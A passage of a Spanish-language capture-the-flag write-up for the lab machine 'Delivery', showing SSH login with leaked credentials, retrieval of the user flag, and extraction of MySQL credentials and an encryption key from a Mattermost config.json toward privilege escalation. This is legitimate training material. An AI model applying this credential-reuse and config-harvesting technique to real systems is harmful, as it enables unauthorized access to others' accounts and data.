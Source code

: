 
Vemos una conversación donde se filtran unas credenciales. Probamos por si se reutilizan para acceder por ssh

```bash
❯ ssh maildeliverer@10.10.10.222
maildeliverer@10.10.10.222 s password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Nov  9 10:25:19 2022 from 10.10.14.19
maildeliverer@Delivery:~$
```

La flag de usuario la podemos encontrar en el mismo directorio donde nos encotramos

```bash
maildeliverer@Delivery:~$ ls
user.txt
maildeliverer@Delivery:~$ cat user.txt 
d8bde448ecac82ba8****************
```

### Escalada Privilegios

* * *

Buscamos por procesos en ejecución y filtramos por mattermost y observamos que reside en `/opt`

```bash
maildeliverer@Delivery:/opt/mattermost/config$ ps -faux | grep -i mattermost
maildel+ 16083  0.0  0.0   6048   824 pts/0    S+   11:37   0:00              \_ grep -i mattermost
matterm+   776  0.1  3.5 1797124 142740 ?      Ssl  09:35   0:10 /opt/mattermost/bin/mattermost
matterm+  1034  0.0  0.5 1161840 20576 ?       Sl   09:38   0:00  \_ plugins/com.mattermost.plugin-channel-export/server/dist/plugin-linux-amd64
matterm+  1041  0.0  0.6 1239060 26520 ?       Sl   09:38   0:00  \_ plugins/com.mattermost.nps/server/dist/plugin-linux-amd64
```
Localizamos un archivo `config.json`

```bash
maildeliverer@Delivery:/opt/mattermost/config$ ls
README.md  cloud_defaults.json  config.json
```
Después de observar detenidamente el archivo podemos extraer credenciales para acceso MySQL

```java
"SqlSettings": {
    "DriverName": "mysql",
    "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
    "DataSourceReplicas": [],
    "DataSourceSearchReplicas": [],
    "MaxIdleConns": 20,
    "ConnMaxLifetimeMilliseconds": 3600000,
    "MaxOpenConns": 300,
    "Trace": false,
    "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
    "QueryTimeout": 30,
    "DisableDatabaseSearch": false
},
```
```sql
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -p
Enter password: 
```